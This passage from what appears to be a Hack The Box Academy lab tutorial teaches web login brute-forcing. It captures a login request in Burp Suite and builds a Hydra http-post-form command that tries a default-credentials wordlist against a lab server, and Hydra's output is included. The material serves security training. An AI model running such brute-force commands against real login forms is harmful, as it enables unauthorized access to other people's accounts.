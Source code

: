 Next, We will go to Firefox and enable the `Burp Proxy` by clicking on the `FoxyProxy` button in Firefox, and then choosing `Burp`, as seen in the screenshot below:

![FoxyProxy](https://academy.hackthebox.com/storage/modules/57/bruteforcing_foxyproxy_1.jpg)

Now, all we will do is attempt a login with any username/password 'e.g. `admin:admin`', and go back to BurpSuite, to find the login request captured:
![FoxyProxy](https://academy.hackthebox.com/storage/modules/57/bruteforcing_burp_request_1.jpg)

Tip: If we find another request captured, we can click "Forward" until we reach our request from "/login.php".

What we need from the above-captured string is the very last line:

```bash
username=admin&password=admin

```

To use in a `hydra http-post-form`, we can take it as is, and replace the username/password we used `admin:admin` with `^USER^` and `^PASS^`. The specification of our final target path should be as follows:

```bash
"/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

```


# Login Form Attacks

* * *

In our situation, we don't have any information about the existing usernames or passwords. Since we enumerated all available ports to us and we couldn't determine any useful information, we have the option to test the web application form for default credentials in combination with the `http-post-form` module.

* * *

## Default Credentials

Let's try to use the `ftp-betterdefaultpasslist.txt` list with the default credentials to test if one of the accounts is registered in the web application.

```shell
hydra -C /opt/useful/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 178.35.49.134 -s 32901 http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

Hydra v9.1 (c) d020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra)
[DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries, ~5 tries per task
[DATA] attacking http-post-form://178.35.49.134:32901/login.php:username=^USER^&password=^PASS^:F=<form name='login'
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra)

```
